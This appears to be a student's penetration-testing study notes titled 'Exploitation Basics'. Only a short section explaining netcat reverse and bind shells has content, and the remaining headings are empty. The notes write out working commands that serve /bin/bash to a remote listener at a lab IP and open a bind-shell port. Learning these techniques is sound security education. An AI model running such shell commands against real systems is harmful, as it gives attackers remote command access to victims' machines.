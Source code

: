 # Exploitation Basics

## Reverse Shells vs Bind Shells

### netcat

- reverse shell: a victim connects to us, we executes a linux bin shell when it connects, we're listening. 95% of cases.
- bind shell: we connect to a port on the target, the victim is listening. Uesful to bypass firewalls.

Reverse shell:

1. open a port: `nc -nvlp 4444`
2. `nc 192.168.92.128 4444 -e /bin/bash`

Bind shell:

1. `nc -nvlp 4444 -e /bin/bash`
2. connect to our victim:

## Staged vs Non-Staged Payloads

## Gaining Root with Metasploit

## Manual Exploitation

## Brute Force Attacks

## Credential Stuffing and Password Spraying

## Our Notes, Revisited
